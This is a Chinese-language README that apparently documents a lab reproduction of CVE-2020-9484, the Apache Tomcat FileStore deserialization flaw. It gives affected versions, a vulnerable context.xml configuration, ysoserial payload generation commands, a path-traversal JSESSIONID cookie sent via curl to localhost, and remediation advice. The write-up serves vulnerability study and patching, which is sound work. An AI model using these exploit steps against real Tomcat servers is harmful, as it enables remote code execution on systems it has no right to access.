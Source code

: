 # CVE-2020-9484:Apache Tomcat代码问题漏洞
## 一、漏洞介绍
北京时间2020年05月20日，Apache官方发布了 Apache Tomcat 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-9484。

Apache Tomcat 是一个开放源代码、运行servlet和JSP Web应用软件的基于Java的Web应用软件容器。当Tomcat使用了自带session同步功能时，使用不安全的配置（没有使用EncryptInterceptor）会存在反序列化漏洞，攻击者通过精心构造的数据包， 可以对使用了自带session同步功能的Tomcat服务器进行攻击。

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。

当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 <strong><font color='red'>org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。</font></strong>


默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

参考：https://www.safedog.cn/news.html?id=4456

## 二、影响版本

Apache Tomcat: 10.0.0-M1 to 10.0.0-M4

Apache Tomcat: 9.0.0.M1 to 9.0.34

Apache Tomcat: 8.5.0 to 8.5.54

Apache Tomcat: 7.0.0 to 7.0.103

## 三、先决条件

1. PersistentManager 使用了FileStore
2. 攻击者能够上传带有任意内容的文件，可以控制文件名并知道上传文件的位置
3. 类路径中有一些小工具可用于Java反序列化攻击，如groovy-2.3.9（创建文件）、CommonsCollections2（弹出计算器）

## 四、漏洞复现

需要环境：虚拟机、kali系统

安装tomcat需要java环境，实验时请自行安装

#### 下载安装tomcat，安装在/usr/local/tomcat

```bash
cd /usr/local
mkdir tomcat
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
tar -zxvf tomcat-10.0.0-M4.tar.gz
```
#### 修改配置文件

注：若配置文件中无此配置，则说明不存在此漏洞
```bash
cd apache-tomcat-10.0.0-M4/conf
vim context.xml
```
添加下列配置
```bash
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```
![1](./images/1.png)

#### 下载反序列化相关工具

##### groovy

`wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar`

将groovy-2.3.9.jar 放入/usr/local/tomcat/lib目录下（ysoserial使用Groovy1命令需要的插件）

![2](./images/2.png)

##### ysoserial

`git clone https://github.com/frohoff/ysoserial.git`

#### 启动tomcat

```bash
cd ~/apache-tomcat-10.0.0-M4/bin
./catalina.sh start
```
![3](./images/4.png)

#### 攻击过程

##### 生成payload

`java -jar ysoserial.jar Groovy1 "touch /tmp/2333" > /tmp/test.session`

![4](./images/3.png)

##### 使用test.session

a. 在浏览器抓取首页的包添加`Cookie: JSESSIONID={ ../../../../../tmp/test }`
{}中为test.session路径

目标是在服务器上执行命令`touch /tmp/2333`，<font color='red'>假设 .session文件已经被上传到服务器的已知位置。</font>

 b. linux命令行

`curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'`

![5](./images/5.png)

此处网上复现皆为127.0.0.1，原因是<font color='red'>这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在 文件上传漏洞的话就是 RCE 了</font>

#### CommonsCollections2

CommonsCollections2不用下载

`java -jar ysoserial.jar CommonsCollections2  "{ /Applications/Calculator.app/Contents/MacOS/Calculator }" > /tmp/test2.session`

![6](./images/6.png)

## 五、修复建议

修复方式就是升级,或者配置WAF，过滤掉../之类的字符串，或者不使用 FileStore

## 六、参考文章

1. https://www.freebuf.com/articles/web/242782.html
2. https://www.safedog.cn/news.html?id=4456
3. https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
4. https://y4er.com/posts/cve-2020-9484-tomcat-session-rce/#%E9%85%8D%E7%BD%AEtomcat%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83
5. https://github.com/masahiro331/CVE-2020-9484   docker环境
